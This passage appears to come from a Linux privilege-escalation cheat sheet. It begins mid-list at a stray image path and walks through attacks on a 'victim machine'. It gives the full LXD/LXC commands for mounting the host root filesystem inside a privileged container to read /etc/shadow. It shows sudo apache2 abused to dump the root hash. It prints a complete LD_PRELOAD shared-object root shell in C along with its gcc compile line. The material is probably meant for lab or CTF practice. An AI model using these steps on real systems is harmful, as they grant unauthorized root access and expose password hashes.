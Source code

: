 2.  upload the tar file to victim machine

3. #### Building a container
  
   1. lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage  (add a new container)
  
   2.  lxc image list   (list all images in the container)   

   3.   lxc init myimage ignite -c security.privileged=true

   4.  lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true  (mounting root filesystem on container)  

   5.  lxc start ignite

   6.  lxc exec ignite /bin/sh

4. #### Accessing the victim root filesystem

   1.  cd /mnt/root/root         
  
  >  The /root we are accessing is basically a copy of real /root of victim so basically we are in a cloned
  >  version of original /root so any changes here will not effect the real /root filesystem . We can read the 
  >   contents of /etc/shadow and crack the hash and then access as root on real /root filesystem.
  
  
  **`https://github.com/initstring/lxd_root`**

### sudo -l
  
    #### apache2

 >   If apache2 is allowed as sudo , we can use apache binary to read first line of files to which
 >   we dont have any access like  /etc/shadow   which will dump root hash.
     
    **sudo /usr/bin/apache2 -f /etc/shadow**      
 
    #### LD_PRELOAD
   
  >  If env_keep=LD_PRELOAD is present when sudo -l ,that means whenever we use sudo a ldpreload shared
  >  object is loaded. So we can manipulate this and make our shared object and force the LD_PRELOAD environment
  > variable to load our custom sharedobject which will be basically our root shell

   -  **To create a root shell file make a c file named preload.c**
 
  > #include <stdio.h>
 
  > #include <sys/types.h>
 
  > #include <stdlib.h>

  >  void _init(){unsetenv("LD_PRELOAD");setresuid(0,0,0);system("/bin/bash -p");}

  - **Now Compile the code**
 
  > gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
